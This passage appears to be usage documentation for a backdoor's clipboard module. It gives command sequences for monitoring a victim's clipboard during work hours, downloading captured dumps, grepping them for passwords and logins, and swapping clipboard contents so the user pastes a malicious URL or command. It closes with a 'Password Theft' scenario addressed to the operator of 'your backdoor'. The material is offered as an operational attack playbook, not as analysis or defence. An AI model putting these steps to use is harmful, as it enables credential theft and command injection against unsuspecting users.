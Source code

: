### 2. Data Collection

```bash
# Start before user session
clipboard_start

# Monitor during work hours
# Passwords often copied in morning

# Download periodically
clipboard_dump  # Every few hours

# Multiple timestamped files preserved
```

### 3. Attack Preparation

```bash
# Test clipboard access first
clipboard_get

# Start monitoring
clipboard_start

# Wait for target to copy credentials

# Download captured data
clipboard_dump

# Analyze offline
grep -i "password\|user\|login" clipboard_dump_*.txt
```

### 4. Injection Attacks

```bash
# Monitor first to understand user behavior
clipboard_start

# When user about to paste important data:
clipboard_set "malicious content"

# User pastes YOUR content instead
# Can be URL, command, data, etc.
```

## Attack Scenarios

### Scenario 1: Password Theft

```bash
# User opens password manager
# Copies password to login to service

# Your backdoor captures:
clipboard_start

# Download after user session:
clipboard_dump

# Result: All passwords user copied
```
